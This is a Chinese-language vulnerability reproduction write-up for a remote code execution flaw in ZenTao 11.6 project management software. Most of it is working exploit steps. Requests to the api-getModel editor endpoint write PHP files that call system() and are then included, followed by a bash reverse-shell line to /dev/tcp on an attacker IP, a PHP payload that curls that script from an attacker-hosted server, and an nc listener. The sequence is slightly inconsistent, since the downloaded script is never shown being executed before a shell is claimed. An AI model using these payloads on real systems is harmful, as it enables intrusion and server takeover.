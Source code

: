 # 禅道 11.6 版本 RCE漏洞

影响版本: 禅道 11.6 版本
漏洞描述:  RCE漏洞
Created by: 一条‘小龍龙

# 0x01 漏洞简介

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。 

# 0x02 影响范围

禅道 11.6

# 0x03 漏洞复现

利用上面的文件读取来执行命令

```bash
http://192.168.59.128/zentao/api-getModel-editor-save-filePath=/tmp/1111

fileContent=<?php phpinfo()?>
```

![Untitled](image/Untitled.png)

```
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/222/2#/
```

![Untitled](image/Untitled%201.png)

```
http://192.168.81.173/zentao/api-getModel-editor-save-filePath=/tmp/shell#/

fileContent=<?php system('pwd');?>
```

![Untitled](image/Untitled%202.png)

```
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/shell/2#/
```

![Untitled](image/Untitled%203.png)

桌面下新建1.sh脚本文件

```bash
bash -i >& /dev/tcp/192.168.81.188/8888 0>&1
```

![Untitled](image/Untitled%204.png)

开启python3 http服务

```bash
python3 -m http.server 8080
```

![Untitled](image/Untitled%205.png)

```bash
http://192.168.81.173/zentao/api-getModel-editor-save-filePath=/tmp/shell#/

fileContent=<?php system('curl http://192.168.81.188:8080/1.sh -o /tmp/1.sh');?>
```

![Untitled](image/Untitled%206.png)

访问网址，以下载1.sh脚本文件

```bash
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/shell/2#/
```

![Untitled](image/Untitled%207.png)

攻击机监听8888端口

```bash
nc -lnvp 8888
```

```bash
http://192.168.81.173/zentao/api-getModel-editor-save-filePath=/tmp/shell#/

fileContent=<?php system('curl http://192.168.81.188:8080/1.sh -o /tmp/1.sh');?>
```

访问一下网址，等待目标主机反弹shell

```bash
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/shell/2#/
```

反弹shell成功！

![Untitled](image/Untitled%208.png)